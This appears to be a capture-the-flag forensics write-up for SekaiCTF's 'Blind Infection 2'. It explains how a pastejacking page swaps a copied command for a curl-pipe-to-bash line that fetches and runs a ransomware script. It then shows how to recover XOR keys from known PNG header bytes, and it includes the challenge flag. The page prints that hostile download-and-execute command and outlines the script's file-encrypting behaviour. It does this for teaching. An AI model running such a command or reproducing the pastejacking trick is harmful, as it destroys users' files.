

import { Code } from 'astro-expressive-code/components'
import Callout from '@/components/mdx/Callout.astro'
import Challenge from '@/components/mdx/Challenge.astro'

<div class="invisible h-0! [&+*]:mt-0 [&+*_*]:mt-0">
## Blind Infection 2
</div>

<Challenge
  title="Blind Infection 2"
  authors={["Battlemonger"]}
  category="Forensics"
  points={488}
  solves={15}
  files={["chall.zip"]}
  flag="SEKAI{D4R3_4CC3PT38_4N8_4U5T38}"
>
  *Investigator*: Here are your backups, but what about rest of your files?  
  *Me*: Umm...  
  *Investigator*: I'm gonna need more details regarding what exactly you were doing.  
</Challenge>

<Callout variant="warning">
  This payload contains ransomware. Consider using a fresh virtual machine, as you may risk losing your data. Although static analysis is safe (and the ransomware is user-triggered), proceed with caution.
</Callout>

We've managed to restore the contents of `Documents/`, but this user has unfortunately failed to backup `Pictures/`. To decrypt them, we need to know the encryption method used. As of now, we only have the plaintext and ciphertext from Part 1, which currently don't prove that useful. We need more details.

### The SQL Rabbit Hole

Continuing to scroll through browser history, near the end of the table we come across instances of the user searching about 'virus' and 'virus remover'. This probably happened after the user's files got encrypted. Looking at the URL visits just before this, we see that the user was downloading various rhythm game-related items, including [osu!](https://osu.ppy.sh/) beatmaps and an `.apk` of [Project Sekai](https://projectsekai.fandom.com/wiki/Project_SEKAI_COLORFUL_STAGE!). This rabbit hole eventually led to a string of suspicious websites — including https://sekaictf-tunes.netlify.app:



import Code7 from './assets/7.txt?raw'

<Code code={Code7} lang="html" title="index.html" />

Check out this snippet above: instead of copying `wget sekairhythms.com/epicmusic.zip{:sh}`, we end up actually copying `curl https://storage.googleapis.com/sekaictf/Forensics/muhahaha.sh | bash{:sh}`, which is a malicious bash script.

This is the premise of the challenge. **Never copy and paste code/commands from internet blindly**! That's where the challenge name comes from — "Blind Infection"!

This is a classic [pastejacking](https://www.geeksforgeeks.org/what-is-pastejacking/) attack. Let's _not_ copy it into the terminal and instead analyze the `.sh` file that's `curl{:sh}`'ed. Visit the [original link](https://storage.googleapis.com/sekaictf/Forensics/muhahaha.sh) to see the raw code:

import Code8 from './assets/8.txt?raw'

<Code code={Code8} lang="sh" title="muhahaha.sh" />

Looks like it's obfuscated by defining a crap ton of environmental variables and evaluating the concatenated contents. To deobfuscate, simply change the `eval{:sh}` term to `echo{:sh}` to see what actually runs:

import Code9 from './assets/9.txt?raw'

<Code code={Code9} lang="sh" title="muhahaha.sh" />

Let's do a quick analysis. This script:

1. Downloads a binary quietly
2. For each file in the `Documents/` and `Pictures/` folder, it:
    - Generates a 16-byte key
    - Performs a XOR operation with the key
    - Removes the key (meaning the key is different every time)
3. Deletes the binary and clears the contents of `~/.bash_history`

We now know a simple XOR was used to encrypt `Pictures/`. However, we don't know the keys, and it would take until the heat death of the universe to brute force 16 bytes. Additionally, we can't extract utilize known-plaintext attacks on Part 1 since each key is unique. We'll need a different solution.

We know that:

1. The files in `Pictures/` are in the `.png` format
2. XOR is reversible if we have a key
3. We do not have a key readily available

But, there is a weakness! If we research a bit into the `.png` format, we learn that the first 16 bytes of a `.png` are always same:

```text
89 50 4E 47 0D 0A 1A 0A 00 00 00 0D 49 48 44 52
Header Block                         IHDR Block
```

With this, we can XOR the first 16 bytes of each encrypted `.png` with this as the key to obtain the original, unique key. We can now decrypt each picture with this Python script:

import Code10 from './assets/10.txt?raw'

<Code code={Code10} lang="py" title="solve.py" />

Use the `strings` command on `flag.png` to flag the challenge.